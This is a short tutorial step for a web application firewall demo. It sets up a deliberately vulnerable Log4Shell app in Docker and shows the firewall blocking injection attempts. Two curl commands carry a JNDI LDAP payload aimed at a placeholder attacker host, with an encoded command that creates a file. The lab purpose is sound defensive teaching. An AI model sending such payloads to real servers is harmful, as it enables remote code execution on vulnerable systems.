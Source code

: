 
## Bootstrap your instant AppSec demo

Get the project

`git clone https://github.com/mkol5222/appsec-demo.git`{{execute}}

Set AppSec again TOKEN
`export TOKEN=bring-your-own-token`{{execute}}

Bootstrap it.

`cd appsec-demo; docker-compose up -d`{{execute}}

Try to reach app with attempt to inject using Log4Shell vulnerability...

`curl --resolve log4shell.local:80:127.0.0.1 log4shell.local -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`{{execute}}

Focus on block message with incident ID

`curl --resolve log4shell.local:80:127.0.0.1 log4shell.local -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/CoG91Y2ggL3RtcC9wd25lZAo=}' | grep -Po 'Application Security.*'`{{execute}}

Check vulnerable app logs

`docker-compose logs log4shell`{{execute}}